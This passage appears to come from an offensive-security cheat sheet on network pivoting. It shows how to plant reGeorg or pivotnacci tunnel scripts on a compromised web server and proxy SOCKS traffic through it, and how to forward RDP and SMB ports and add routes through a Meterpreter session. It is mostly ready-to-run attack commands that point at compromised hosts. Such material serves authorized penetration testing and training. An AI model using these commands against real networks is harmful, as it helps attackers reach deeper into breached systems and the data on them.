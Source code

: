 
## Web SOCKS - reGeorg

[reGeorg](https://github.com/sensepost/reGeorg), the successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn.

Drop one of the following files on the server:

- tunnel.ashx
- tunnel.aspx
- tunnel.js
- tunnel.jsp
- tunnel.nosocket.php
- tunnel.php
- tunnel.tomcat.5.jsp

```python
python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp # the socks proxy will be on port 8080

optional arguments:
  -h, --help           show this help message and exit
  -l , --listen-on     The default listening address
  -p , --listen-port   The default listening port
  -r , --read-buff     Local read buffer, max data to be sent per POST
  -u , --url           The url containing the tunnel script
  -v , --verbose       Verbose output[INFO|DEBUG]
```

## Web SOCKS - pivotnacci

[pivotnacci](https://github.com/blackarrowsec/pivotnacci), a tool to make socks connections through HTTP agents.

```powershell
pip3 install pivotnacci
pivotnacci  https://domain.com/agent.php --password "s3cr3t"
pivotnacci  https://domain.com/agent.php --polling-interval 2000
```


## Metasploit

```powershell
# Meterpreter list active port forwards
portfwd list 

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd add –l 3389 –p 3389 –r target-host 
portfwd add -l 88 -p 88 -r 127.0.0.1
portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd delete –l 3389 –p 3389 –r target-host 
# Meterpreter delete all port forwards
portfwd flush 

or

# Use Meterpreters autoroute script to add the route for specified subnet 192.168.15.0
run autoroute -s 192.168.15.0/24 
use auxiliary/server/socks_proxy
set SRVPORT 9090
set VERSION 4a
# or
use auxiliary/server/socks4a     # (deprecated)
```